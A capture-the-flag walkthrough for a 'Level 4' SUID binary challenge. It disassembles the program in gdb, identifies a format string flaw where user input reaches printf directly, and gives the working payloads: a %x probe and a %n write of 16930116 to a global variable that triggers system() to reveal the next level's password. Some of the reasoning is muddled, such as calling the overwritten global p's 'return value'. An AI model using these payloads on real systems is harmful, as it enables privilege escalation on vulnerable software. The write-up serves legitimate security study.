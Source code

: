 # Level 4

## First clue
- once logged in as level4 we find again an executable, `level4` owned by `level5` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) pdisas frame_dummy


```
- there are three main functions, `main`, `p` and `n`
- first we inspect main
## Main
```
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`
## Function n

```
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret  
```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls function p passing as argument the user input retrieved with fget and stored in 0x208 
- it makes some comparisons and a conditional jump (jne) that suggests that function n decide to execute further instructions based on the return of function p. Which instructions? If the comparison return true it launch a shell via a call to system
## Function p
```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.

```
- allocates 24 bytes (0x18 in hexa)
- it moves to eax regisster a value located at ebp+0x8 that could be an argument pased to the p function
- it passes that argument to the printf funciton
## Vulnerability
- `0x0804844a <+6>:	mov    0x8(%ebp),%eax` => this instruction MOVES THE CONTENT (and not the address) of the argument passed to p function (that is the user input) directly to eax for the printf function to use it as argument as well. This means that the string ritten by the user is passed to printf as it is, without proper validation .
If the proper validation had been put in place we should see instead a LEA (load effective address) of the argument passed to p.
We can exploit a format string vulnerability. How?

## Toward the Solution
- back to function n, it compares the content of the return of function p with the hexadecimal value 0x1025544, at this line `0x08048492 <+59>:  cmp    $0x1025544,%eax`. 0x1025544 is 16930116 in decimal.
If we find a way for function p to return value 16930116n we get true and the system call is triggered. 

## Finding Buffer Position: 
We first find the position of our buffer in memory by injecting format specifiers into the input string and observing the output. For example:


`python -c 'print "aaaa" + " %x" * 15' | ./level4`

## Manipulating Return Value: 
Once we know the buffer's position, we construct an input string that manipulates the return value of function p to 16930116. This is done by padding the memory address of the variable m and using the %n format specifier.

`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`
Here, "\x10\x98\x04\x08" represents the memory address of m, and %16930112d pads the address, while %12$n writes the number of characters processed so far to the address pointed to by the 12th argument.

## Triggering System Call
With the return value manipulated, the comparison in function n will evaluate to true, triggering the system call that directly print the /level5/.pass containing the flag
